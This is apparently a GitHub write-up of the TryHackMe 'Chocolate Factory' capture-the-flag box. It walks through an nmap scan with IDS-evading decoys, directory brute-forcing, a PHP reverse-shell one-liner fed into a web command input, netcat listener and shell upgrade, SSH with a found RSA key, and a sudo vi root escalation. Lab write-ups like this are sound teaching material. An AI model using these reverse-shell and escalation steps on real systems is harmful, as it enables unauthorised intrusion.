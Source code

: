
![intro](https://github.com/user-attachments/assets/50e81e51-d8d8-4b71-9227-35567c08f0f4)

# tryhackme-Chocolate Factory-writeup
This is a walkthrough for the tryhackme CTF Chocolate Factory. I will not provide any flags or passwords as this is intended to be used as a guide.

## Scanning/Reconnaissance

First off, let's store the target IP as a variable for easy access.

Command: export ip=xx.xx.xx.xx

Next, let's run an nmap scan on the target IP:
```bash
nmap -A -v $ip -D RND:10 -oN nmap.txt
```

Command break down:

-A: This flag enables aggressive scanning. It combines various scan types (like OS detection, version detection, script scanning, and traceroute) into a single scan.

-v: increases verbosity, providing more detailed output during the scan.

—$ip: provides the target IP we stored as the variable $ip.

-D RND:10 Nmap can send additional packets to confuse network intrusion detection systems (IDS) or hide the true source of the scan by randomly selecting up to 10 decoy IP addresses.

-oN nmap.txt: This option specifies normal output that should be saved to a file named “nmap.txt.

This scan reveals many open ports, but I'll just focus on the relavent ones:
![nmap](https://github.com/user-attachments/assets/6967f154-8e11-4172-b1bc-95659d16b9f1)

The web server on port 80 takes to you a login panel that uses a validate.php function. The nmap scan took a while so I also ran scans with gobuster and nikto.
```bash
gobuster dir -u $ip -w=/usr/share/wordlists/dirb/common.txt -x php,txt,jpg -o buster.txt
```
I checked out the home.php dir and it took me to the squirrel room, which has an command input. I will try to run a simple php reverse shell. Let's head to revshells.com, input your IP and desired port, and I'm going to use the PHP exec shell. I'm choosing a short php shell since the site clearly uses php for many of it's functions:
```bash
php -r '$sock=fsockopen("10.10.191.134",9001);exec("sh <&3 >&3 2>&3");'
```
On kali we'll run the netcat listener:
```bash
nc -lvnp 9001
```
We now a primative shell as www-data!
First, let's upgrade the shell for improved function and stability:
```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```
```bash
export TERM=xterm
```
ctrl -z
```bash
stty raw -echo; fg
```
```bash
stty rows 16 columns 138
```
Taking a look at www-data's home directory we see validate.php, which includes a password for Charlie:
![charlie](https://github.com/user-attachments/assets/98932712-e5a2-4ebb-ba2c-3659b083fafd)
I tried to switch users to charlie with this password but no luck. Now that I think about it, the login on the web server displayed the validate.php function, so this is displaying the code behind that. Let's see what else we can find...
The file key_rev_key contains a key that will can answer the questions with:
![key_rev_key](https://github.com/user-attachments/assets/0f2222a6-1299-4d3a-a160-2bb78f147715)

Next, let's go to charlie's home dir. We don't have the permissions to cat user.txt but teleport contains an rsa key, most likely for charlie.
![rsa](https://github.com/user-attachments/assets/eddd0419-6723-46b8-893d-20a7bcb1b9d7)

This rsa key gives us everything needed to ssh as charlie:
![ssh](https://github.com/user-attachments/assets/1fb4f963-d1de-4885-9e05-979ce0ff0a6b)

Let's cd to charlies home dir and get the user.txt.
sudo -l looks interesting:
![sudo -l](https://github.com/user-attachments/assets/a4a09f4f-0d89-403c-816d-59d2ab4e5c8d)

Let's check that out on gtfobins.github.io
It worked!
![vi](https://github.com/user-attachments/assets/b9a17f0b-cfa4-4033-8b92-6453573789cd)
Now, we are root but we still need to find the flag. Let's upgrade the shell with the previous python3 pty command, and head to the root dir. I tried running python3 root.py but it didn't work. Then I tried python root.py and we are now the proud owners of the Chocolate Factory! 

![win](https://github.com/user-attachments/assets/2c32f827-80fd-4b8f-870c-1b342d436308)

I hope you enjoyed this CTF writeup.  
